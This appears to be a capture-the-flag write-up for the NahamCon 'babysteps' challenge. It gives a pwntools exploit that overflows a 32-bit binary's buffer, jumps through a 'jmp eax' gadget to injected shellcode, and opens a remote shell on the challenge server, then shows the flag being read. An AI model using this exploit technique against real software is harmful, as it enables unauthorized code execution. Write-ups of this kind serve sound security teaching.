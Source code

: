 The relevant gadget is ```0x08049545 : jmp eax```.

Let's solve it using [pwntools](https://docs.pwntools.com/en/stable/intro.html) with the following [code](./exp_babysteps.py):
```python
from pwn import *

elf = ELF('./babysteps')
libc = elf.libc

if args.REMOTE:
    p = remote('challenge.nahamcon.com', 31879)
else:
    p = process(elf.path)

# payload buffer
payload = b"\x90"*28
payload += p32(0x8049545)
payload += asm(shellcraft.sh())
payload += asm(shellcraft.exit())

p.recvuntil('?')
p.sendline(payload)
p.interactive()
```

Run it:
```python
┌─[evyatar@parrot]─[/nahamcon/binary_exploitation/babysteps]
└──╼ $ python3 exp_babysteps.py REMOTE
[*] '/nahamcon/binary_exploitation/babysteps/babysteps'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[*] '/usr/lib32/libc-2.31.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenge.nahamcon.com on port 31879: Done
[*] Switching to interactive mode
 (literally?)

First, what is your baby name?
$ hostname
babysteps-cff24dc585091927-688f7f999b-4bfwf
$ ls
babysteps
bin
dev
etc
flag.txt
lib
lib32
lib64
libx32
usr
$ cat flag.txt
flag{7d4ce4594f7511f8d7d6d0b1edd1a162}
```

And we get the flag ```flag{7d4ce4594f7511f8d7d6d0b1edd1a162}```.